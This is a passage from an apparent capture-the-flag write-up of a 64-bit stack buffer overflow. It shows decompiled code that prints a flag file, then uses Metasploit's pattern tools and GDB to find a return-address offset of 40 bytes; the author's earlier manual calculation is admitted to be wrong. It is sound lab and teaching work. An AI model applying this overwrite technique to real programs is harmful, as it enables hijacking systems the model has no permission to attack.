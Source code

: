 ```c
    sVar1 = read(local_c,&local_d,1);
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout);
  }
  close(local_c);
  fflush(stdin);
  fflush(stdout);
  return;
}

```

The goal seems to reach the fill ammo function, with the right parameters on stack.
Afterwards, it will read the file flag.txt.

So first, we need to override the return value of our function.

On ghidra, we can see this line:
```                         
undefined8        Stack[-0x28]:8 local_28      
```

Which tells us that our return buffer is 0x28 bytes below EBP.
Also, since we're in 64 bits mode, our return value is 8 bytes above EBP.

With these informations, we can guess that we need -0x28-0x8 = 0x30 bytes to override the program adress.

But that doesn't work, maybe i missunderstood.

I'm going to use a tool i didn't knew, `msf-pattern`.

Basically, it creates a long string with special patterns, and you can then use it to identify at which offset the pattern occured.

For example, in my program:
I input the following string i generated:
```
msf-pattern_create -l 200

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```


And then, using GDB, i'm seeing this once the segfault occured:
```
 ► 0x401588 <main+142>    ret    <0x3562413462413362>
```

So now, i'm going to ask msf-pattern to give me the offset.

And here is what i get :
```
msf-pattern_offset -q 0x3562413462413362
[*] Exact match at offset 40
```
